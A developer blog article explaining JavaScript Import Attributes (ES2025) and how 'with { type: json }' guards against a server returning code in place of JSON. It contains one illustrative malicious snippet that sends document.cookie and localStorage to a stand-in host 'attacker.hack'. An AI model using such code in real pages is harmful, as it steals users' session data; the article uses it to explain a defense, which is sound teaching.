 ```yaml
---
title: "What's new in JavaScript ES2025: Import Attributes"
description: A new way to make module imports more secure.
date: 2024-11-22T21:33:25.684Z
update: 2025-01-22T21:13:59.142Z
image:
  src: /media/2024/11/js-es2025.svg
  alt: JavaScript ES2025
  og: /media/2024/11/js-es2025.png
tags:
  - Programación
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
---
```


<BaselineStatus id="json-modules" />

JavaScript now includes **Import Attributes**, a feature that lets you explicitly declare what kind of module you're importing. This addition brings enhanced security and clarity to module imports, particularly for JSON and other non-JavaScript modules.

## ❌ The Problem with File Extensions

When importing modules on the web, we can't reliably use file extensions to determine module types. A server might send JavaScript code even when requesting a file with a `.json` extension, potentially creating security risks:

```js title="main.js"
import config from './config.json';
```

What you expect to get:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

What a compromised server could send instead:

```js title="config.json"
export default (function () {
  // Send your API keys to an attacker
  fetch('https://attacker.hack', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Then return what looks like normal config
  return {
    accessToken: 'secret-key',
    refreshToken: 'secret-key',
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## 💡 The Solution: Import Attributes

Import Attributes let you explicitly declare what type of module you expect, creating a contract that JavaScript environments must enforce:

```diff title="main.js"
- // WITHOUT Import Attributes - potentially unsafe
- import config from './config.json';
+ // WITH Import Attributes - safe JSON import
+ import config from './config.json' with { type: 'json' };
```

## 💭 Where you can use Import Attributes?

The syntax works consistently across different import scenarios:

```js
// Regular imports
import config from './config.json' with { type: 'json' };

// Dynamic imports work too
const config = await import('./config.json', { 
  with: { type: 'json' } 
});

// Re-exports
export { apiKey } from './config.json' with { type: 'json' };

// Specify JavaScript module
import module from './module.js' with { type: 'javascript' };

// Web Workers
new Worker('worker.wasm', {
  type: 'module',
  with: { type: "webassembly" }
});
```

## 📌 Key Benefits

- **Security**: When importing JSON modules, the `type: "json"` attribute guarantees you'll receive either JSON data or an error - never executable code.

- **Consistency**: Provides a standard way to handle different module types across all JavaScript environments.

- **Extensibility**: While JSON modules are the first use case, the syntax is designed to support future module types and additional metadata attributes.

- **Cache Control**: Hosts can use attributes as part of their module caching strategy, with the behavior defined by each environment.

## Practical Applications

- **JSON Modules**: The core use case of import attributes is to reliably load JSON modules. By specifying `type: "json"` you guarantee that the server delivers data as JSON, not potentially malicious code.
- **Dynamic Imports**:  Import attributes allow using dynamic imports (`await import()`) and control over module type, making them more flexible for various use cases.

## The Future of Import Attributes

Import attributes are a crucial step towards a safer and more predictable JavaScript ecosystem. They're expected to become part of ES2025 and will likely be essential for web development in the coming years.
